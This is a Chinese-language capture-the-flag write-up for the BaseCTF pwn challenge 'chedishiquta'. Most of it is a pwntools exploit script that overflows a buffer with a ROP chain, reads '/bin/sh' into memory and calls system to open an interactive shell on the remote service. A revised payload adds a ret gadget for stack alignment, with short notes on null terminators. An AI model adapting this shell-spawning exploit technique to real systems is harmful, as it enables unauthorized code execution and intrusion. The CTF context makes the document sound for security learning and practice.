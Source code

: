 ```python
from pwn import *
link=remote('challenge.basectf.fun',端口)
e=ELF('./chedishiquta')

system_addr=0x4011A5
rdi=0x401196
rsi=0x4011AD
rdx=0x401265
buffer_addr=0x4040A0
read_addr=e.sym['read'] #在ELF文件"chedishiquta"中找到read的地址

link.recvuntil(b'name?') #等待直到接收到"name?"后继续执行
payload=b'a'*0x12
+p64(rdi)+p64(0) #read函数的第一个参数 fd：文件描述符（0标准输入 1标准输出 2标准错误）
+p64(rsi)+p64(buffer_addr) #第二个参数 buf：指向内存缓冲区的指针 read函数读取的数据存储的位置
+p64(rdx)+p64(0x100) #第三个参数 count：要读取的字节数
+p64(read_addr)+p64(rdi)+p64(buffer_addr)+p64(system_addr)

link.sendline(payload)
link.sendline(b'/bin/sh\x00') #记得加上终止符"\x00"以防buffer中原有值影响system函数执行
link.interactive()
```

### 资料：终止符
+ 在C语言中字符串以`\x00`作为结束标志，称为null终止符，可以避免程序访问越界内存

> 运行脚本发现成功Get EOF，应该是栈平衡的问题
>

### 重点：堆栈平衡的常用方法
> 回到程序的汇编指令界面：  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240825143753058.png)![](/images/df1ee200e0397d410024f6d8a1a77df0.png)  
在里面找个`retn`指令把地址记下来，这个地址是0x401266
>

+ 汇编指令`retn`就等于`pop rip`
+ 可以将`rsp`的地址加8从而补齐16位

> 所以在上面写的payload里面，在调用`system`函数之前塞上`retn`指令的地址就可以解决了
>
> payload那块应该改成下面这样：
>

```python
retn=0x401266

payload=b'a'*0x12
+p64(rdi)+p64(0) #read函数的第一个参数 fd：文件描述符（0标准输入 1标准输出 2标准错误）
+p64(rsi)+p64(buffer_addr) #第二个参数 buf：指向内存缓冲区的指针 read函数读取的数据存储的位置
+p64(rdx)+p64(0x100) #第三个参数 count：要读取的字节数
+p64(read_addr)
+p64(retn) #在这里加上retn指令的地址
+p64(rdi)+p64(buffer_addr)+p64(system_addr)
```
